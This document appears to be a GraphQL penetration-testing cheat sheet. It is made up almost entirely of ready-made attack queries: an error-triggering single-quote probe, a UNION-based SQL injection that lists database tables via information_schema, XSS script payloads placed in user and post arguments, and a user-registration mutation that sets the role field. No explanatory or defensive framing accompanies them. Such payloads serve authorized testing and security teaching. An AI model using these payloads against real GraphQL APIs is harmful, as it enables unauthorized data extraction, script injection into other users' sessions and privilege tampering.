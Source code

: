 ### Single Quote Test (Error-based)
```graphql
{
  user(username: "admin'") {
    uuid
    username
    role
  }
}
```

### UNION-based SQL Injection (Extract Table Names)
```graphql
{
  user(username: "x' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -") {
    username
  }
}
```

## XSS Payloads

### XSS in Query Argument
```graphql
{
  user(username: "<script>alert(1)</script>") {
    uuid
    username
    role
  }
}
```

### XSS in Invalid Integer Argument
```graphql
{
  post(id: "<script>alert(1)</script>") {
    id
    title
  }
}
```

## Mutations

### Register New User
```graphql
mutation {
  registerUser(input: {username: "newuser", password: "MD5_HASH", role: "user", msg: "message"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```
